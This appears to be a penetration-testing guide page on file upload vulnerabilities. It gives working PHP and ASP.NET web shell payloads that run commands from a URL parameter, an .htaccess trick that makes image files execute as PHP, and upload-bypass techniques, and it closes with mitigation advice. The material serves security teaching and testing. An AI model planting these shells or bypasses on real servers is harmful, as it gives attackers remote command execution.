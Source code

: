 ```yaml
---
description: >-
  Upload vulnerabilities occur when an application does not properly validate or
  sanitise user-uploaded files
---
```


# Uploads

## What is an Upload Vulnerability?

Upload vulnerabilities occur when an application does not properly validate or sanitize user-uploaded files. This can lead to unauthorized code execution, file inclusion, or other security breaches. Attackers may exploit these vulnerabilities to upload malicious files, such as web shells or configuration files, that can compromise the server or application.

### Example Tests for Upload Vulnerabilities

When performing a penetration test, you can use various payloads to test for upload vulnerabilities. Below are some example tests and methodologies to identify such vulnerabilities.

### **Example Payloads and Techniques**

1. **Uploading a Web Shell**
   *   **PHP Web Shell**: Upload a simple PHP file with the following content:

       ```php
       <?php system($_GET['cmd']); ?>
       ```
   *   **ASP Web Shell**: Upload an ASP file with the following content:

       {% code overflow="wrap" %}
       ```aspnet
       <% @Page Language="C#" %>
       <script runat="server">
       void Page_Load(object sender, EventArgs e) {
           if (Request.QueryString["cmd"] != null) {
               System.Diagnostics.Process.Start("cmd.exe", "/c " + Request.QueryString["cmd"]);
           }
       }
       </script>
       ```
       {% endcode %}
2.  **Uploading .htaccess File**

    *   To change the behavior of the web server, you can upload an `.htaccess` file:

        ```bash
        AddType application/x-httpd-php .jpg
        ```

    This allows you to upload a PHP file disguised with a `.jpg` extension and have it executed as PHP.
3. **Bypassing File Type Restrictions**
   * **Polyglot Files**: Create a file that can be interpreted as both an image and a script. For example, an image with PHP code hidden in comments.
   * **MIME Type Bypass**: Change the MIME type of the file to bypass content-type checks.
4. **Using Alternate Extensions**
   * Upload files with different extensions that might still be interpreted as scripts by the server, such as `.phtml`, `.phar`, or `.shtml`.
5. **Configuration Files**
   * **Apache Configuration (.htaccess)**: Upload an `.htaccess` file to enable execution of other uploaded files.
   * **Tomcat Configuration**: Modify the `web.xml` file to include malicious servlet mappings.

## Testing Methodology

1. **Identify Upload Points**:
   * Locate file upload functionalities in the application, such as profile picture uploads, document uploads, etc.
2. **Attempt File Uploads**:
   * Use various payloads to attempt uploading different file types and observe the server's response.
   * Monitor the server's directory structure to see where files are stored and if they are accessible.
3. **Analyze Responses**:
   * Check if the uploaded files are executable by accessing them directly via a web browser.
   * Use intercepting proxies like Burp Suite or OWASP ZAP to manipulate file uploads and bypass client-side restrictions.
4. **Monitor Server Behavior**:
   * Observe any changes in server behavior, error messages, or execution of uploaded files.

### References

* [PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)
* [PayloadsAllTheThings - Jetty RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Jetty%20RCE/JettyShell.xml)
* [PayloadsAllTheThings - Extension ASP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20ASP/shell.aspx)

### Example bypass upload restrictions.&#x20;

<figure><img src="../../.gitbook/assets/1669794207400.jfif" alt=""><figcaption></figcaption></figure>

#### Conclusion

Upload vulnerabilities can lead to severe security breaches if not properly mitigated. Always ensure user inputs are sanitised and validated before processing. Implement proper file type checks, size limits, and use safe directories for storing uploaded files. Regular security testing and updates to the application code can help prevent such vulnerabilities.

